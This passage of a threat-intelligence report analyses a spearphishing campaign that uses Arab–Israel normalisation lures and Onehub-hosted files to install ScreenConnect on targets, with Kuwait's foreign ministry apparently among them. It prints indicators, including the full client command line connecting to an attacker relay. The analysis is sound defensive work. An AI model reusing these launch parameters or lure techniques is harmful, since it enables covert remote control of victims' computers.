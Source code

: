 relations between Arabic countries and Israel. The actors reference multiple official agencies, including the General Secretariat of the Cooperation Council for the Arab States of the Gulf and the UAE National Media Council, likely in an effort to add the appearance of legitimacy. A full translation of this document can be viewed in Appendix A. The hyperlink in the .docx file is impersonating the UAE National Media Council, however, the actual link directs to <strong>ws.onehub.com/files/7w1372el</strong>.</p> <p>The second file is a ZIP called الدراسیة .zip (see Figure 3). We cannot determine the delivery method for this ZIP, but it is likely similar to the .docx email delivery method of the first download URL. The geopolitical-themed ZIP contains an EXE file with the same name that begins the installation process for ScreenConnect when executed (see Figure 4).</p> <p style="text-align: center;"><em><strong><img alt="Download URL ws.onehub.com/files/94otjyvd for Malicious ZIP الدراسیة .zip" src="https://cdn.filestackcontent.com/JSr3TyJBQJisFMwSeyTa"/><br/> Figure 3</strong> – Download URL <strong>ws.onehub.com/files/94otjyvd</strong> for Malicious ZIP <strong>الدراسیة .zip</strong></em></p> <p style="text-align: center;"><em><strong><img alt="ScreenConnect Installation" src="https://cdn.filestackcontent.com/HLvJBIh5Tp6JP05cEbNw"/><br/> Figure 4</strong> - ScreenConnect Installation</em></p> <h2>Technical Analysis</h2> <h3>ScreenConnect and OneHub Context</h3> <p>Between 2016 and 2020, we have seenScreenConnect and Onehub used in malicious cyber activity by different, unassociated threat actors. For example, between 2016 and 2019 unknown threat actors targeted IT outsourcing firms, including compromising US-based Cognizant and India-based Wipro.<sup>[7]</sup> The actors responsible for these attacks used ScreenConnect to connect to endpoints on client networks, enabling them to conduct further lateral movements and automated actions on objectives. During an incident impacting Cognizant and their client Maritz Holdings, actors used ScreenConnect to propagate to other connected systems and caused over $1.8 million (USD) in losses through a gift card fraud scheme.<sup>[6]</sup> In 2019, another threat group used ConnectWise to execute PowerShell commands in their target environments. This lead to the delivery of Zeppelin and other VegaLocker ransomware variants, Vidar information stealer, Cobalt Strike beacons, PS2EXE tools, and banker Trojans.[7] In 2020, ScreenConnect/ConnectWise has been utilized by the cybercriminal group Pinchy Spider (GOLD SOUTHFIELD, GOLD GARDEN, Sodinokibi, REvil, GandCrab) to distribute Sodinokibi ransomware.<sup>[8]</sup></p> <p>Remote desktop management software is a common target and tool used by threat actors because of the wide variety of functionalities they offer. ScreenConnect offers three primary functions that each contain different valuable features for threat actors. ScreenConnect’s capabilities are shown in Table 1 below.</p> <p style="text-align: center;"><em><strong>Table 1</strong> - ScreenConnect Capabilities</em><sup>[9]</sup></p> <table class="table table-striped"> <thead> <tr> <th>Feature</th> <th>Functions</th> </tr> </thead> <tbody> <tr> <td>Remote Support</td> <td>Remote control and viewing of any internet-connect device.</td> </tr> <tr> <td>Unattended Access</td> <td>Persistent connection allows behind-the-scenes, remote control of any machine or server.</td> </tr> <tr> <td>Meetings</td> <td>Standard screen-sharing meetings with chat and voice communication, record video, and take screenshots.</td> </tr> </tbody> </table> <p>The cybercriminal group Graceful Spider (TA505, Gold Evergreen, TEMP.Warlock, Hive0065, Chimborazo, FIN11) distributed spearphishing emails impersonating Onehub in 2019 in attempts to trick users into downloading the SDBbot remote access trojan (RAT).[10] Onehub’s file-storage services are also utilized in malspam emails to host various malware, as is common with other file storage locations abused by multiple threat actors.</p> <h3>First Executable</h3> <p>تحليل ودراسة تطبيع العلاقات الدول العربية واسرائيل httpsmod.gov.kw.exe</p> <p>When a user tries to double click the executable <strong>تحليل ودراسة تطبيع العلاقات الدول العربية واسرائيل httpsmod.gov.kw.exe</strong> (Screenconnect payload), it drops the Microsoft installer file. This begins the installation of the client payload onto victim machines. While the actors attempted to make the installation appear legitimate, closer inspection of the client launch parameters reveals the potential for broader MOFA targeting. The client service launch parameters are:</p> <div class="break-word"> <p>"C:\Program Files (x86)\ScreenConnect Client (a97eeae2330a1851)\ScreenConnect.ClientService.exe" "?e=Access&amp;y=Guest&amp;h=instance-uwct38-relay.screenconnect.com&amp;p=443&amp;s=defc756e-8027-47b6-b67f-400b5152b0f9&amp;k=BgIAAACkAABSU0ExAAgAAAEAAQAtuFTxmBL02KmPrJD46iRMPemIxmEf5ugjlUMfa193CjLMeH9pna2eM0ZGHYhe3MZHUEAByA4fhpInP5kKnkrPl%2fjhxwjHSIaKZ%2bMobL27iSLf8tgmCtGJTTZndViJcMcp4v0yqJOMxVuUdPraZ%2fTvrw6wZpECq7LCGncZGOri%2fqQVFUqsIDZZzhQye6zfkCg0DgxxPf4aQzjgqQo20dJeQDIEEb0sy7FPiSde3VVxTmp%2fMB3Ho%2bK3mobu743glaeTOq0aIsvXASRKb5xB1f4pFUMi1mETUoGgWL%2f6qhNk65scRZmECWvs7O8ajulQMiSPQj9lUOejdBR9taEB8Byz&amp;t=&amp;c=mofa&amp;c=mofa.gov.kw&amp;c=mofa&amp;c=pc&amp;c=&amp;c=&amp;c=&amp;c="</p> </div> <p>While the ScreenConnectclient agent is being installed, the server component expects a connection and the server can identify the client agent through a public key thumbprint. The thumbprint is a 16 character string located at "C:\Program Files (x86)\ScreenConnect Client (<strong>a97eeae2330a1851</strong>)”</p> <p>Analysis of the authentic launch parameters passed back to the server as part of Screenconnect functionality is shown in Table 2 below.</p> <p style="text-align: center;"><em><strong>Table 2 </strong>- ScreenConnect